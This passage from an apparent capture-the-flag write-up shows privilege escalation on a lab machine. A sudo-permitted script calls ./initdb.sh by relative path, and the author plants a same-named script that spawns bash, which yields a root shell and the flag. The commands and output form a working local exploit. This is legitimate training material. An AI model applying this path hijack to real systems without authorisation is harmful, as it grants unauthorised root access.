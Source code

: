 The call to `./initdb.sh` stood out in the script. It was the only command that did not use an absolute path. Instead it was being executed in the current directory. I needed to create a script with this name in my home folder, and it would be executed as root with `sudo`.

I created a script that launched bash and made it executable.

```bash
dvir@headless:~$ cat initdb.sh 
#!/bin/bash
/bin/bash

dvir@headless:~$ chmod +x initdb.sh
```

Then I ran the system check script with sudo to become root and read the flag.

```bash
dvir@headless:~$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...

whoami
root

cat /root/root.txt
1688fe0720c45947b2882e29bf6b1233
```